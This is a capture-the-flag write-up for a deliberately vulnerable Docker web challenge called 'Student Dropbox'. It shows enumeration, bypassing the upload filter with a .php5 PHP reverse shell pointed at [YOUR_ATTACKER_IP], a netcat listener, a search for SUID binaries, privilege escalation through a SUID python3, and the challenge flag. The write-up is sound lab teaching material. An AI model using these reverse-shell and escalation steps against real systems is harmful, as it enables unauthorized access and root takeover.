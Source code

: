 ## WRITEUP - STUDENT DROPBOX

Category: *web*
Level: *medium*

**Description** : Your professor asked you to submit the report for your school project. To make things easier, he created a simple platform where you can upload your work.

However, since he likes to test your curiosity, he intentionally left a vulnerability in the system. As an extra challenge, he announced **a bonus of 10 points on the final exam** to anyone who can retrieve the **flag** hidden in the root directory as proof.

--------------------------------------------------
## Step 1 : Launch the Docker Image

-   The image is available on my Docker Hub:

<pre>Link : https://hub.docker.com/repositories/razafindraibe</pre>

-   Pull the image:

<pre>docker pull razafindraibe/student_dropbox:latest</pre>

![alt text](imageswriteup/1.png)

-   Run a container from the image:

<pre>docker run --rm -d -p 80:80 -p 22:22 razafindraibe/student_dropbox:latest</pre>

![alt text](imageswriteup/2.png)

---------------------------------------------------

## Step 2 : Enumeration

-   First, check the Docker container’s IP address:

![alt text](imageswriteup/3.png)

![alt text](imageswriteup/4.png)

-   Let’s start with an **Nmap scan**:

![alt text](imageswriteup/5.png)

We can see that two ports are open: **80 (HTTP) and 22 (SSH)** — pretty standard.

- Next, let’s use <code>Gobuster</code> to look for hidden directories on the website:

![alt text](imageswriteup/6.png)

Interesting… we found two directories: <code>/student</code> and <code>/projects</code>.

-   Visiting the main page shows the default Apache landing page:

![alt text](imageswriteup/7.png)

C'est la page par defaut d'apache.

-   Navigating to <code>/student</code> reveals the upload page where we are supposed to submit our project reports :

![alt text](imageswriteup/8.png)

However, only <code>.zip</code> or <code>.gz</code> are allowed.

-  If we go to <code>/projects</code> , we can see the files that have been uploaded .

![alt text](imageswriteup/9.png)

-----------------------------------------------

## Step 3 : Exploitation

-   First, I tried uploading a simple <code>.txt</code> file to see how the application reacts :

![alt text](imageswriteup/10.png)

![alt text](imageswriteup/11.png)

Good job, teacher ! The server rejects it. I also tested with <code>.py </code>,<code>.php </code> etc ... all resulted in errors.

-   Uploading a <code>zip</code> , and <code>gz</code>, et there isn't any error but , file does not trigger an error, but nothing appears under <code>/projects</code>. Suspicious…

-   Time to try something more interesting : a <code>PHP reverse shell</code> et Before that, let’s prepare our listener : <code>nc -lvnp 4444</code>

- I used the classic : <code> https://github.com/pentestmonkey/php-reverse-shell </code>

![alt text](imageswriteup/12.png)

**Steps** :

1- Copy the content of <code>php-reverse-shell.php</code>

2- Create a new file, but change the extension to <code>php5</code> or <code>php4</code>

![alt text](imageswriteup/13a.png)

3- Paste the reverse shell code and edit the following variables:

<pre>
    -   $IP = [YOUR_ATTACKER_IP]
    -   $PORT = what you want (I choose 4444)
</pre>

![alt text](imageswriteup/13.png)

4- Upload the modified <code>reverse shell.</code>

![alt text](imageswriteup/14.png)

Bingo 🎉 — the file extension is accepted!

5- Check the <code>/projects</code> directory:

![alt text](imageswriteup/15.png)

6- Start the <code>netcat</code> listener :

![alt text](imageswriteup/16.png)

7- Click on the uploaded <code>shell.php5</code>

8- Go back to  <code>netcat</code> ....

![alt text](imageswriteup/17.png)

🎯 Success! We now have a working <code>reverse shell</code> on the target.

-----------------------------------------------

## Step 4 :  Privilege Escalation

-   First, I checked for available sudo permissions with: <code>sudo -l</code> . But nothing useful showed up:

![alt text](imageswriteup/18.png)

-    Next, I searched for <code>SUID binaries</code> that might allow privilege escalation: 

<pre>find / -perm -4000 -type f 2>/dev/null</pre>

![alt text](imageswriteup/19.png)

Interesting… we found <code>/usr/bin/python3.10</code>, owned by root.
If we can run this, it should allow us to escalate privileges.

-   Time to check **GTFOBins** for a Python SUID exploit:

![alt text](imageswriteup/20.png)

![alt text](imageswriteup/21.png)

-   Running the suggested command directly threw an error:

![alt text](imageswriteup/22.png)

-    That’s because the binary is <code>python3</code> not <code>python</code>.

Adjusting the command accordingly…

![alt text](imageswriteup/23.png)

💥 Boom! Root access obtained.

-   Now, let’s search for the <code>flag</code> to earn the professor’s <code>+10 bonus points:</code>

![alt text](imageswriteup/24.png)

![alt text](imageswriteup/25.png)

<pre>flag{4rbitr4ry_f1le_uplo4d_to_rce}</pre>
